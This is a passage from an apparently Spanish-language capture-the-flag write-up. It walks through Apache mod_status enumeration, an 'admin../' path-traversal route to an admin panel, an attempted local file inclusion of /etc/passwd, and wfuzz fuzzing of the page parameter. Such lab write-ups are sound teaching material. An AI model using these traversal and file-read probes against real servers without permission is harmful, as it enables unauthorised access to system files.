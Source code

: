 Esta última ruta corresponde al módulo [mod_status](https://httpd.apache.org/docs/trunk/es/mod/mod_status.html) de `Apache` el cual sirve para que el administrador pueda conocer el rendimiento del servidor.

Bien, accedamos para ver que encontramos:

![image](https://user-images.githubusercontent.com/67548295/145213285-c3b4f31d-e39c-45e5-ba18-04ec8cb32e37.png)

Al acceder nos encontramos con un panel con estadísticas del servidor y una ruta potencial a probar.

Accedamos para ver que hay:

![image](https://user-images.githubusercontent.com/67548295/145213993-48f73c50-3799-4440-8fc4-66fbac16b207.png)

¡Vaya! parece ser que hemos accedido a un panel de administración.

---

Examino el panel en busca de vectores de explotación hasta que me doy cuenta de algo:

![image](https://user-images.githubusercontent.com/67548295/145215913-ef15a40e-f0c3-42f1-9e2b-c6ffa95b618c.png)

Se están cargando los apartados de la web mediante un parámetro GET del archivo `index.php`.

Como atacante, con esto se me ocurren vectores de ataque como el de [LFI](https://www.welivesecurity.com/la-es/2015/01/12/como-funciona-vulnerabilidad-local-file-inclusion/){:target="\_blank"}{:rel="noopener nofollow"}

Y si en lugar de de `user.php` pongo ¿`/etc/passwd`?

Probemos:

![image](https://user-images.githubusercontent.com/67548295/145218451-5109dc28-3756-487f-8af2-6381420a88c0.png)

Nada, no nos reporta nada, pero no por ello pierdo la esperanza en este vector de ataque.

Pruebo a fuzzear por archivos acabantes en `.php` en busca de algo relevante: 

```bash
┌──[z3r0byte@z3r0byte]─[~]
└──╼ $ wfuzz -c --hc=404 --hw=1049 -w /opt/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://10.10.10.249/admin../admin_staging/index.php?page=FUZZ.php -t 50
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.249/admin../admin_staging/index.php?page=FUZZ.php
Total requests: 38267

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                   
=====================================================================

000000031:   200        577 L    1547 W     24976 Ch    "user"                                                                                                                    
000000206:   200        1172 L   5288 W     87193 Ch    "info"                                                                                                                    
000000951:   200        882 L    2267 W     40554 Ch    "dashboard"                                                                                                               
000002770:   200        743 L    1638 W     29127 Ch    "tables"                                                                                                                  

Total time: 0
Processed Requests: 35784
```